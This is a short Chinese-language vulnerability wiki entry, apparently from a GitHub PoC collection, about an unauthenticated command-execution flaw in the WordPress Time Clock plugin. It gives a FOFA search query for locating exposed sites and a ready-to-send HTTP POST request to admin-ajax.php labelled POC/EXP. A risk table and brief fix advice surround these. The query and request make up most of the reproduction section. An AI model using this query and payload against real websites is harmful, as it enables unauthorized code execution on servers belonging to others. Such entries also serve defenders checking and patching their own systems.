

# WordPress Time Clock插件存在命令执行漏洞

# 漏洞描述

WordPress Time Clock插件 /wp-admin/admin-ajax.php存在命令执行漏洞，未经身份验证攻击者可执行系统命令，导致网站处于极度不安全状态。

# 影响版本

WordPress Time Clock插件

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/time-clock/" || body="/wp-content/plugins/time-clock-pro/"

POC/EXP：

POST /wp-admin/admin-ajax.php?action=etimeclockwp_load_function HTTP/2
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

function=phpinfo

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
